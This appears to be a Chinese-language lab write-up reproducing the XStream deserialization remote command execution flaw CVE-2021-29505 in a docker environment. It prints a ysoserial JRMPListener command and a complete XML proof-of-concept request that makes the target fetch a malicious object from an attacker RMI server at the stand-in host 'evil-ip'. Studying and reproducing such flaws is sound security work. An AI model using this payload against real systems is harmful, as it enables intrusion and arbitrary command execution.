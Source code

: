 # XStream 反序列化命令执行漏洞（CVE-2021-29505）

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造RMI请求，进而执行任意命令。

参考链接：

- [https://x-stream.github.io/CVE-2021-29505.html][1]
- https://paper.seebug.org/1543/

## 漏洞环境

执行如下命令启动一个Springboot + XStream 1.4.16的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![](1.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用[ysoserial](https://github.com/frohoff/ysoserial)的JRMPListener启动一个恶意的RMI Registry：

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

这个RMI Registry在收到请求后，会返回用CommonsCollections6利用链构造的恶意序列化对象。

然后，我们向目标服务器发送CVE-2021-29505的XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip是恶意RMI服务器的地址。恶意RMI服务器收到RMI请求：

![](2.png)

进入目标容器内，可见``touch /tmp/success``已成功执行：

![](3.png)

值得注意的是，我们没有直接使用[官网][1]给出的POC，那个POC是错的。

[1]: https://x-stream.github.io/CVE-2021-29505.html
